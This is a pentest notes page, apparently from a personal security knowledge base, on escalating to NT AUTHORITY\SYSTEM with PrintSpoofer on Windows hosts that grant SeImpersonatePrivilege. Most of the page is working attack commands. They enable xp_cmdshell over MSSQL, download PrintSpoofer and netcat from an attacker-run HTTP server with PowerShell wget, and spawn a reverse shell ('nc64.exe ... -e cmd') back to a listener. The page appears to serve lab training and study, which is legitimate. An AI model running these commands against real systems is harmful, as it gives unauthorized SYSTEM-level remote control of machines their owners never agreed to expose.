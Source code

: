 ```yaml
---
title: PrintSpoofer
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
  - SeImpersonatePrivilege
---
```

# 🖨️ PrintSpoofer

 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage `NT AUTHORITY\SYSTEM` level access on Windows Server 2019 and Windows 10 build 1809 onwards when the  command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. 

Download from: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

**1.** Spawn a SYSTEM process on a desktop or catch a reverse shell. For instance, let's imagine that we have access with

```
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
```

And that our user has the SeImpersonatePrivilege  listed when running:

```
enable_xp_cmdshell
xp_cmdshell whoami /priv
```

**2.** Download the PrintSpoofer64.exe file from kali to the host

```
# from a different kali terminal locate the file and then
python3 -m http.server 80

# From the terminal with the mssql connection, upload PrintSpoofer64.exe and nc.exe
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/PrintSpoofer64.exe -outfile PrintSpoofer64.exe"
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe"
```

**3.** Set a listener in the kali and execute it from the host:

```
# Set a listener from the kali machine
nc -lnvp 1234

# Execute the PrintSpoofer
xp_cmdshell "powershell -c cd C:\Tools; .\PrintSpoofer64.exe
 -c "C:\Tools\nc64.exe  $IPfromOurKali 1234 -e cmd"
```
